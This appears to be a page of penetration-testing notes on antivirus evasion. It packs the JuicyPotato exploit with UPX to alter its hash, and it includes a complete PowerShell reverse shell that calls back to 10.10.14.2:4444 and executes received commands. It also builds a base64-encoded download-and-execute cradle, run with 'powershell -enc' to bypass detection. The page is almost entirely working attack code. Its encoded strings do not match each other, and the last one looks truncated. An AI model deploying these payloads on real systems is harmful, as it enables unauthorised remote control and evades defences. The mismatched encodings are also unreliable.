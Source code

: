 ## UPX

```bash
md5sum JuicyPotato.exe
upx -9 JuicyPotato.exe
mv JuicyPotato.exe PotatoUPX.exe
md5sum PotatoUPX.exe
# Now execute this .exe on the target
```

## Encoding to bypass

{% code overflow="wrap" fullWidth="true" %}
```powershell
cat rev.ps1

$socket = new-object System.Net.Sockets.TcpClient('10.10.14.2', 4444); #lhost lport
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do{
        $writer.Write("PS $(pwd)> ");
        $writer.Flush();
        $read = $null;
        while($stream.DataAvailable -or ($read = $stream.Read($buffer, 0, 1024)) -eq $null){}
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $read);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendback2  = $sendback;
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $writer.Write($sendbyte,0,$sendbyte.Length);
}While ($true);
$writer.close();$socket.close();

echo -n "iex (New-Object Net.WebClient).DownloadString('http://10.10.10.10/rev.ps1')" | iconv -t  utf-16le | base64 -w0
aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAHIAZQB2AC4AcABzADEAJwApAA==

cmd.exe /c powershell -enc aQBlAHgAIAAoAE4AZwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAvAHIAZQB2AC4AcABzADEAJwApAA==
```
{% endcode %}

## Living Off The Land / AD

[#living-off-the-land-lolbas](./#living-off-the-land-lolbas "mention")

## Check against Windows Defender
